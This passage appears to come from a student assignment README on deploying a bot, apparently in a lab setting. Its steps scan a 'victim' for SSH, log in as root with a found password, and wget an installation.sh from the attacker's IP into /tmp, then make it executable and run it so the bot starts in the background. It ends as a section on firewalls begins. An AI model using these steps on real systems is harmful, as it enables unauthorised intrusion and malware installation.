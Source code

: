 ***Step 6***: Open up one more terminal, run `ifconfig` and find your own ip-address because it will be use later on. After that, run `./server_filename` in the folder where all the file located to run the server for the bot.

***Step 7***: Open up another terminal and run the ssh -h command to check if the package is install in the machine. If not you would need to install using `apt-get install ssh` in ubuntu machine or other have to research online. (The following step assume that all our user is using kali which have ssh come preinstalled) 

***Step 8***: Run `nmap IP-ADDRESS -p 22` in the terminal where the IP-ADDRESS is the ip address of the victim or hostname you are targeting

***Step 9***: When reading the report, if result say that port 22 is closed then just GIVE UP. (However we assume that victim already have ssh install) But if the ssh port or port 22 is open means that we can connect into the system.

***Step 10***: Run `ssh USER@IP-ADDRESS` where USER is the name of the target or try root and IP-ADDRESS is the target ip address. Assume the ip-address is 192.168.152.131 then the command will be `ssh root@192.168.152.131`

***Step 11***: When you run it will prompt for the password for the user root. Enter the password you found or the password for the user you found.

***Step 12***: Congratulation, you are now in the victim machine. You will need to navigate to the tmp folder with `cd /tmp/` and enter then enter the `pwd` command to check if you are at the tmp folder.

***Step 13***: Run the command `wget http://10.1.6.123/installation.sh` command to download the file into the machine assume that the ip address that you got from step 5 is 10.1.6.123

***Step 14***: step 13 will download a file from your machine to victim machine which if you run `ls` you will find the file is in there. Run the `chmod +x installation.sh` to give access for the file so that it can be execute.

***Step 15***: run the command of `./installation.sh` and it will download some file and start running the bot in the background.
Lastly: Run `ps aux | grep bot.py` you will see there is one process where the bot is running. (Notes: bot.py is the name of the file and can be depend on what file you have name it)

### ***list the requirements for the client and server machines to run the bot (100 - 200 words)***

- Server server 
    - require ssh capabilities
    - python3 installed

- Client Server
    - Have openSSH installed and port 22 is configure to be open by the firewall and allow connection
    - Have python3 package install in the machine
    - Have wget capabilities to download file into the machine
    - Have the access right to chmod for the file and run the file

### ***outline of how at least TWO security features in a network can affect the installation of the bot (150 words each)***
- Firewall
    